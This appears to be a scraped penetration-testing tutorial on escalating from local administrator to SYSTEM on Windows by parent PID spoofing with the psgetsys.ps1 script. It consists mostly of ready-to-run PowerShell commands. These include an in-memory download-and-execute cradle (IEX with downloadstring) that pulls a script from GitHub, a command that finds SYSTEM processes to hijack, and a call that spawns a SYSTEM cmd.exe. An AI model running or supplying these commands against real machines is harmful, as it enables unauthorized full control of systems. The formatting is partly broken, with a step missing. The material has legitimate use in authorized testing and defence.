


Getting SYSTEM from Local Admin
Prerequisites:•
SeDebugPrivilege (usually Adminitrators have it)
• WINDOWS OS >=
Vista
Getting from a local administrator account to SYSTEM can be done in a variety of ways. The most
common way, of course, is using
Metasploit's
getsystem that use
Token Duplication with the function
elevate_via_service_tokendup.
Alternatively if we do not want use Metasploit,
decoder_it(Andrea Pierini) created a PowerShell script
psgetsys.ps1 to go from a Local Administrative PowerShell
prompt to System.
Normally, when a process launches a child process, it becomes the parent of the child
process. However starting form Windows Vista it is possible to alter this behavior. If we create a new process
setting also the parent process property, the child process will inherit the token of the specified parent process
and impersonate this one. So if we create a new process, setting the parent PID the process owned by SYSTEM, we did
it!
Of course, we need to have elevated rights in order to create a process from the parent process handle,
typically seDebugPrivilege which administrators have (note: if a regular user has this privilege too, he has the
keys for the kingdom!). Keep in mind that this privilege is available only from an elevated command
prompt.
Shortly: Psgetsystem allows us to get SYSTEM privileges
via a parent process that have SYSTEM privileges, which then spawns a child process which effectively inherits the
SYSTEM access privileges of the parent.
1. Download in memory psgetsys.ps1'
PS> IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1');
2. Identify a SYSTEM process to which we can “piggyback” onto. Not all SYSTEM services are ok
PS> Get-Process -IncludeUserName | Where-Object {$_.UserName -match "SYSTEM"} | Format-List –Property Username,Name,Id
 Usually winlogon is
ok
4. instruct psgetsystem to run “cmd.exe”
PS> [MyProcess]::CreateProcessFromParent(<processID_run_by_system>,”cmd.exe”,"")
Verify with Process Explorer (
https://download.sysinternals.com/files/ProcessExplorer.zip)
PS> (new-object System.Net.WebClient).DownloadFile("https://download.sysinternals.com/files/ProcessExplorer.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\procexp.exe"; Remove-Item -Path "$env:userprofile\desktop\file.zip";
Bibliography:
•
https://decoder.cloud/2018/02/02/getting-system/•
https://pentestlab.blog/2020/02/24/parent-pid-spoofing/